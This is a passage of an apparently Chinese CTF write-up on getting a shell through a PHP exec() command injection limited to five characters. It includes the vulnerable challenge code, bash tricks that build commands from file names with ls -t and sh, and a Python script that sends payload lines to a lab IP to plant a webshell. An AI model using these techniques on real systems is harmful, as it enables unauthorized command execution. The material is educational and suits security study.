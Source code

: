 ```bash
>ech\\
ls -t>0
sh 0
```



![0r3yAP.png](https://s1.ax1x.com/2020/10/09/0r3yAP.png)

![0rYeb9.png](https://s1.ax1x.com/2020/10/09/0rYeb9.png)

```python
#脚本如下
import requests

url1 = "http://192.168.153.131/7.php?1="
with open("payload.txt","r") as f:
	for i in f:
		url = url1+i.strip()
		requests.get(url)

res = requests.get("http://192.168.153.131/1.php")
if res.status_code:
	print 'success!!!'
```

##### 5字符串getshell

```php
 <?php
    $sandbox = '/var/www/html/sandbox/';
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__); 
```



1）通过>来创建文件

2）通过ls的-t（从晚到早）参数来基于时间来排序文件

3）sh a 会把文件a里面的内容当作命令来执行

4）使用\来进行命令拼接

5）通过base64来避免特殊字符

6）输入统配符* ，Linux会把第一个列出的文件名当作命令，剩下的文件名当作参数

7）增加字母来限定被用来当作命令和参数的文件名
